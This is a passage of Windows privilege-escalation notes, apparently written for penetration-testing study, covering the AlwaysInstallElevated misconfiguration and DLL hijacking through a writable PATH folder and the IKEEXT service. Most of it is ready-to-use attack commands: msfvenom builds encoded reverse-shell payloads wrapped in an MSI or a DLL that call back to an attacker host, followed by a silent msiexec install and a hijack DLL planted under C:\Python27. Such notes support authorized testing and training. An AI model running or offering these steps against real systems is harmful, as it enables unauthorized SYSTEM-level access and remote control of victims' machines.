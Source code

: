 #### AlwaysInstallElevated
```cmd
# On Windows:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# if key is found, the following is produced:
# HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
#    AlwaysInstallElevated    REG_DWORD    0x1
# if not found:
# ERROR: The system was unable to find the specified registry key or value.

# On Kali, generate a msi that will call a reverse shell
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=[kali ip] LPORT=[port] -f exe -o payload.exe
msfvenom -p windows/exec cmd="C:\Users\bob\AppData\Local\Temp\Payload.exe" -f msi-nouac -o shell.msi
# transfer both to "C:\Users\bob\AppData\Local\Temp\"

# On Windows:
msiexec /quiet /qn /i "C:\Users\bob\AppData\Local\Temp\malicious.msi" # /quiet - Suppress messages to the user, /qn - no gui, /i - regular (vs administrative) installation
```

Tools:
* Metasploit Module: `exploit/windows/local/always_install_elevated`

Resources:
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

#### DLL Hijacking
Order in which Windows finds a DLL:
1. The directory from which the application loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (system then user)

Sometimes, a DLL does not exist on the machine. As a low privilege user we have little hope of putting a malicious DLL in 1-4, 5 is not a possibility in this case because we are talking about a Windows service but if we have write access to any of the directories in the Windows PATH we win.

We'll need 2 things, a writable file/folder in %PATH% ("C:\Python27"), and a vulnerable service/application that has missing DLLs (IKEEXT):
```cmd
echo %path%
# Find a non-default directory in "C:\", it will give write access to authenticated users.
cacls "C:\Python27"
msfvenom -p windows/shell_reverse_tcp lhost=[kali ip] lport=[port] -f dll -o shell.dll # on Kali
copy shell.dll C:\Python27\wlbsctrl.dll
# restart IKEEXT service
```
